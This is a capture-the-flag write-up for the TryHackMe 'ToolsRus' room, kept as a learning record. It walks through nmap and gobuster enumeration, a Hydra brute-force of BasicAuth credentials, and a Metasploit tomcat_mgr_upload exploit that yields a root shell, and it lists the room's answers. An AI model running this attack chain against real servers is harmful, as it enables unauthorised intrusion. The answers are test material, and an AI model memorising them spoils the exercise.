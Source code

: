 # ToolsRus | TryHackMe

## Overview
- **Room:** ToolsRus  
- **Difficulty:** Easy  
- **Date:** <your_date_here>  
- **Tags:** Enumeration, Brute-force, Tomcat, Metasploit  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN nmap_toolsrus.txt <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  
- 1234/tcp - Apache Tomcat  

---

### Website (Port 80)
Checked the main page → nothing useful.  

Ran gobuster:  
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Findings:**
- `/guidelines` → revealed username **bob**  
- `/protected` → required credentials (BasicAuth)  

---

### Hydra (Brute-force)
Brute-forced password for bob:  
```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt <IP> http-get /protected/
```

**Result:**  
`bob : bubbles`

---

## Tomcat (Port 1234)

Service enumeration:  
```bash
nmap -sC -sV -p1234 <IP>
```
→ Apache Tomcat/7.0.88  

Checked Tomcat Manager with Nikto:  
```bash
nikto -host http://<IP>:1234/manager/html -id bob:bubbles
```
→ Valid access confirmed  

---

## Exploitation

Used Metasploit:  
```bash
msfconsole
search tomcat_mgr_upload
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set TARGETURI /manager/html
set LHOST <your_IP>
run
```

Shell obtained:  
```bash
whoami
root
```

---

## Privilege Escalation
Already had root access directly via the exploit.  

---

## Flags
```bash
cd /root
cat flag.txt
```
 Root flag retrieved  

---

## Answers to Room Questions
1. **What port is Tomcat running on?** → `1234`  
2. **What is the username found on the website?** → `bob`  
3. **What is bob’s password?** → `bubbles`  
4. **What version of Apache Tomcat is running?** → `7.0.88`  
5. **What exploit was used to gain access?** → `tomcat_mgr_upload`  
6. **What is the user flag?** → Found in `/root/flag.txt`  

---

## Lessons Learned
- `gobuster` helps find hidden directories.  
- Hydra is useful for brute-forcing BasicAuth.  
- Apache Tomcat Manager is dangerous if default creds are guessed.  
- The `tomcat_mgr_upload` Metasploit module provides direct root access.  
